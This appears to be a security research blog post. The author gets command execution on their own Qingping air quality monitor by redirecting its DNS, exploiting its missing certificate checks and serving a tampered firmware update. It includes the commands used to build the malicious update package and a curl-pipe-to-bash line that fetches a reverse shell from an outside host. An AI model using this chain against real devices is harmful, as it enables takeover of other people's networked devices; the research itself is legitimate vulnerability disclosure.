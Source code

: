 ```yaml
---
layout: single
title: Hacking my Qingping Air Quality Monitor 2
date: 2025-08-13
classes: wide
header:
  teaser: /assets/images/qingping/1.jpeg
tags:
  - Exploit-Dev
  - Penetration Testing
  - IoT
---
```


I recently acquired a [Qingping Air Quality Monitor 2](https://www.qingping.co/air-monitor-2/overview) for monitoring indoor air quality. While I’ve been happy with the product, I’m inherently distrustful of IoT devices, especially those that connect to my home’s Wi-Fi network. So, I set out to investigate its functionality with the end goal of obtaining some form of command execution to further explore the file system and running processes on the device.

## Recon

Running a basic port scan on the device revealed that only port 53 was open, running `dnsmasq 2.85`:

![](/assets/images/qingping/2.png)

A quick search for this version shows a [2022 CVE](https://www.cvedetails.com/cve/CVE-2022-0934/) for a denial-of-service bug. However, this wasn’t of interest here.

Next, I wanted to see what web requests the device makes when connected to the internet. On my home network I use NextDNS, which offers functionality similar to Pi-hole (though any DNS logging solution would work). Once connected to Wi-Fi, the Qingping device sent several requests to the `*.cleargrass.com` domain.

![](/assets/images/qingping/15.png)

As a web pentester, I immediately wanted to intercept and inspect these HTTP requests. To do this, I needed to MITM the device’s traffic. Fortunately, many home DNS solutions (router settings, Pi-hole, etc.) let you add custom DNS entries, so I could map `*.cleargrass.com` to my laptop’s IP address and redirect traffic there. If your network doesn’t have this feature, the tool [bettercap](https://www.bettercap.org/) can perform DNS spoofing to acheive similar results.

![](/assets/images/qingping/3.png)

Starting a netcat listener on port 443 confirmed that HTTPS traffic for `*.cleargrass.com` now hit my laptop. The next challenge was intercepting the HTTPS requests. For this, I generated a small Python HTTPS server that proxies requests to Burp Suite on `127.0.0.1:8080`. This script is available [here](/assets/code/qingping/https_tap.py)

First, generate an SSL certificate for the HTTPS server:
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost"
```

Next, run the HTTPS server script with Burp Suite listening. 

```
sudo python3 https_tap.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem
```

![](/assets/images/qingping/4.png)

Great, we are successfully able to intercept HTTP requests generated by the Qingping device. 

Interestingly, the device continues to function normally while being MITM'd, which strongly indicates that SSL certificate verification is disabled. One would expect that some sort of certificate pinning would be enforced to avoid this scenario.

Note: Since we’ve remapped DNS for `*.cleargrass.com`, you’ll need to restore correct DNS resolution on your laptop so it can forward requests. One way is to temporarily set your laptop's DNS to `8.8.8.8` instead of using the network's DNS configuration. Alternatively, set up an SSH SOCKS proxy and configure Burp Suite to use it.

## System Update Functionality

With minimal exposed ports, the system update mechanism seemed the most promising attack surface. Within the device Settings > System Update menu, one can instruct the device to check for updates. 

![](/assets/images/qingping/14.png)

The relevant HTTP request and response are shown below (note: at the time of writing this software version `4.5.6_0156` was the latest stable version).

![](/assets/images/qingping/5.png)

However, if we modify the outbound HTTP request to advertise a lower version, let's say `4.5.6_0155`, the web server responds with instructions to update the device.

![](/assets/images/qingping/6.png)

The HTTP response contains some key information. It tells the device a new version is available, it provides the software update's MD5 hash, the software update's URL location, and a brief description of the update. The next logical step is to inspect this software update package. The device then issues a request to the URL described in the prior HTTP request. This request and response are shown below:


![](/assets/images/qingping/8.png)

One interesting thing to note is that the ETag header contains the MD5 hash of the software update, which is also included in the GET request path.

Downloading and extracting the ZIP file reveals a certificate, several Bash scripts, another ZIP file, and a Linux ELF binary. Given that the device reboots after updating, the `ota.sh` script is likely executed during the update process.



![](/assets/images/qingping/7.png)

At this point, the attack path is clear: intercept the update process and deliver a modified package.

## Crafting our Malicious Update

As previously discussed, `ota.sh` seems like a good candidate to insert our own Bash commands. Let's try a `curl` command to a web server we control to see if these commands will be executed upon updating the software.

![](/assets/images/qingping/9.png)

Next we will also need to update the file `md5` with the new MD5 hash of `ota.sh`, below is a Bash command to achieve this:
```bash
rm -f md5
for f in *; do
  [ "$f" = "md5" ] && continue
  [ -f "$f" ] || continue
  md5 -q "$f" | awk -v n="$f" '{printf "%s  %s\n",$1,n}' >> md5
done
```

![](/assets/images/qingping/10.png)

Next we can zip everything up with a zip command: 
```
zip -X -9 -q -r ../malicious_update.zip .
```

Great, now we have crafted a malicious software update with an added Bash command. Once we supply this update to the device we should see a GET request to our web server.

## Delivering the Malicious Update
Since we can intercept HTTP requests and responses to the device, it is trivial to supply our own .zip file in the HTTP response to the update request. However, as discussed above there are a few additional pieces of information required in the HTTP response headers, such as the MD5 hash. To assist with this, I once again vibe coded a brief script that handles all the math and delivers the proper response.

The attack flow:
1. DNS spoof the `*.cleargrass.com` domain
2. Respond to the check update request with a new update
3. Replace the system update zip file with our own malicious zip

To acheive this, we will modify the previous python HTTPS server to deliver the malicious update. As noted, we will need to adjust MD5 hashes and other HTTP response headers for the device to accept the file. This is all handled by the code.

Let's see it in action. If all goes well we should see a curl request on our web server to `/qingping`. Starting the [updated python HTTPS server](/assets/code/qingping/zip_supply.py):
```
 sudo python3 zip_supply.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem --zip-file ../malicious_update.zip
```

 On the device, initiate a system update. We can see the request come through to our fake update server.

 ![](/assets/images/qingping/11.png)

 After a few moments we see the HTTP request to our web server. Nice! 

 ![](/assets/images/qingping/12.png)

From here, obtaining a reverse shell is trivial. I personally had success modifying the shell command in `ota.sh` to `curl https://poc.cinzinga.com/qingping | bash` where the file `qingping` hosted a reverse shell.

 ![](/assets/images/qingping/13.png)

## Further Research

The Qingping Air Quality Monitor also integrates with a mobile app, which could be another interesting target. The device’s firmware contains numerous binaries that manage its functions. Analyzing these could uncover deeper vulnerabilities. 